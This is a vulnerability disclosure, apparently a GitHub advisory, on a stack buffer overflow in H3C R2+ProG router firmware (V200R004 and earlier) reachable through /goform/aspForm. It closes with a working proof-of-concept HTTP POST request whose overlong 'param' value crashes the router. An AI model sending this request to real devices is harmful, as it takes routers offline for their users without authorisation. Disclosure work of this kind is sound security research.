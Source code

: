# Information



**Vendor of the products:** New H3C Technologies Co., Ltd.

**Vendor's website:** [新华三 - 融绘数字未来，共享美好生活](https://www.h3c.com/cn/)

**Reported by:** Chen Bo ([2804894416@qq.com](mailto:2804894416@qq.com))

**Affected products:** H3C R2+ProG

**Affected firmware version:** <=V200R004

**Firmware download address:** [download](https://www.h3c.com/cn/Home/Agreement//default.htm?t=H3C%20R2+ProGV200R004%EF%BC%88%E4%BB%85%E9%80%82%E7%94%A8%E4%BA%8E%E5%8E%9F%E5%85%88%E7%89%88%E6%9C%AC%E4%B8%BAV200%E7%B3%BB%E5%88%97%E7%9A%84%E8%AE%BE%E5%A4%87%EF%BC%89%E7%89%88%E6%9C%AC%E5%8F%8A%E8%BD%AF%E4%BB%B6%E8%AF%B4%E6%98%8E%E4%B9%A6&s=7597052)

# Overview

A serious buffer overflow vulnerability was found in H3C R2+ProG router. The vulnerability can be initiated through the /goform/aspForm route. By sending an HTTP POST request to construct the param field, the program may crash. Denial of service attacks can be achieved through the following functions UpdateWanParams/AddMacList/EditMacList/AddWlanMacList/EditWlanMacList/Edit_BasicSSID/Edit_GuestSSIDFor2P4G/Edit_BasicSSID_5G/SetAPInfoById

# Vulnerability details

Although the length of the parameter is limited to no more than 0x200 bytes, since the length of the v27 array is only 64 bytes, a buffer overflow will occur when formatting below

![image-20250422171504413](1/image-20250422171504413.png)

The following related components also involve similar problems, leading to buffer overflow

![image-20250422172932100](1/image-20250422172932100.png)

![image-20250422173000965](1/image-20250422173000965.png)

![image-20250422173059158](1/image-20250422173059158.png)



# POC

```
POST /goform/aspForm HTTP/1.1
Host: 192.168.124.1
Content-Length: 239
Cache-Control: max-age=0
Origin: http://192.168.124.1
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.124.1/mobile_access_net.asp
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: USERLOGINIDFLAG=; LOGIN_PSD_REM_FLAG=
Connection: close

CMD=UpdateWanParams&param=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

![image-20250411182020182](1/image-20250411182020182.png)